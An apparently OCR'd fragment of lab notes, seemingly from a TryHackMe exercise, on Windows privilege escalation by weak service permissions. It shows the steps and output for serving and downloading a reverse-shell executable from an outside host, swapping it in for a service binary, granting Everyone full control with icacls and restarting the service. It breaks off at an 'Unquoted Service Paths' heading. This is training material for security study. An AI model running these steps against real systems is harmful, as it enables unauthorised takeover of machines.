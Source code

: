 python3 -m http.server

  

  

# Download the file

wget http://10.2.18.222:8000/rev-svc.exe -O rev-svc.exe

  

# Copy the file to correct place

  

C:\> cd C:\PROGRA~2\SYSTEM~1\

  

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp

        1 file(s) moved.

  

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe

        1 file(s) moved.

  

  

# Give executable permission to all

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F

        Successfully processed 1 files.

  

# Restart the service

  

C:\> sc.exe stop windowsscheduler

C:\> sc.exe start windowsscheduler

  

1. Unquoted Service Paths

  

# Path is quoted

sc qc "vncserver"

  

# Path is unquoted
